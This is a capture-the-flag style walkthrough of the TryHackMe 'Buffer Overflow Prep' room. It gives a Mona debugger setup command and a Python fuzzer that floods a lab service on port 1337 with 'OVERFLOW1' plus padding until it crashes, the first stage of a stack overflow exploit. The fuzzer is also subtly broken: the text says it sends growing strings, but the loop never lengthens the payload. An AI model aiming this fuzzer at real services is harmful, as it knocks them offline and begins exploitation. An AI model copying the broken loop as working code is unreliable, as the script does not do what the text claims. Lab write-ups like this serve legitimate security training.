 ```yaml
---
layout: default
title: Buffer Overflow Prep
parent: Try Hack Me
nav_order: 4
published: true
---
```

![Default](https://tryhackme.com/img/banners/default_tryhackme.png)
# Buffer Overflow Prep
I believe Tiberius wrote this one, which is comforting. He has some great Linux and Windows Priv Escalation courses on Udemy. You can find this TryHackMe room [Here](https://tryhackme.com/room/bufferoverflowprep). He also has a great [Buffer Overflow Pen Test Cheat Sheet on Github](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst). 

## Overflow 1
### Controlling EIP
I'll leave out the finer details where possible. I really want to jot down any highlights, scripts, or tips that I think might be beneficial for future Buffer Overflow encounters. Definitely checkout the room (linked above) for full details.

Mona Working Folder
{: .highlight }  

Set a Mona Working Folder after launching Immunity via the following command. This will be helpful later when we start using Mona to identify bad characters.
```
!mona config -set workingfolder c:\mona\%p
```

Python3 Fuzzer
{: .highlight }  
The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent.

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.180.173"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
```